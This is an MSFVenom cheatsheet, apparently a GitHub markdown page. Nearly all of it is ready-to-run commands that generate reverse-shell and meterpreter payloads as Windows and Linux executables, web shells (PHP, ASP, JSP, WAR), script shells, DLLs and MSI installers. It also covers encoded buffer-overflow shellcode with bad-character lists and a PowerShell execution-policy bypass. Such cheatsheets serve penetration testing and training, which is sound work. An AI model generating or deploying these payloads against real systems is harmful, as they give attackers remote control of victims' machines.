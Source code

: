 # MSFVenom Cheatsheet
```default
      o O o                   
              o O             
                 o            
 |^^^^^^^^^^^^^^|l___         
 |    PAYLOAD     |""\___,    
 |________________|__|)__|    
  (@)(@)"""**|(@)(@)**|(@)    
   __  __  _____ ________      __                        
  |  \/  |/ ____|  ____\ \    / /                        
  | \  / | (___ | |__   \ \  / /__ _ __   ___  _ __ ___  
  | |\/| |\___ \|  __|   \ \/ / _ \ '_ \ / _ \| '_ ` _ \ 
  | |  | |____) | |       \  /  __/ | | | (_) | | | | | |
  |_|  |_|_____/|_|        \/ \___|_| |_|\___/|_| |_| |_|
```

The payloads with "(no stages)" can be received with a regular netcat listener. The meterpreter or staged payloads require Metasploit's "multi/handler" module.

## Windows (no stages)
```bash
# Win x86
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Windows (meterpreter)

```bash
# Win x86 staged
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64 staged
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

# Win x86 stageless
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64 stageless
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Linux (no stages)
```bash
# Linux x86
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Linux (meterpreter)
```bash
# Linux x86 staged
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64 staged
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

# Linux x86 stageless
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64 stageless
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Reverse Shells

```bash
# PHP
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

# ASP
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# ASPX
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

## Script Reverse Shells

```bash
# Python
# you will have to strip off the python command in the resulting file
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

# Powershell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -f psh -o psshell.ps1
#cmd> powershell.exe -ExecutionPolicy Bypass -File psshell.ps1
```

## DLL
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f dll -o hackedlib.dll
```

## MSI
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f msi -o reverse.msi
```

## Binary exploitation

```bash
# find a suitable payload
msfvenom -l payloads

# find suitable encoders
msfvenom -l encoders
```

Basic BOF Example:
```bash
# generate payload
# at the end there are the badchars
# use EXITFUNC=thread after LPORT=4444 if you want the application to resume afterwards
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Manage exit behavior with exit function:
```bash
# Thread exit function (allow process to continue after exploit)
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f py –e x86/shikata_ga_nai -b "\x00" EXITFUNC=thread

# Process exit function (use when using multi/handler or when )
EXITFUNC=process

# structured exception handler
EXITFUNC=seh

# None
EXITFUNC=none
```

Pop calc:
```bash
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f c
```

## References

* https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
* https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
* https://www.offensive-security.com/metasploit-unleashed/msfvenom/
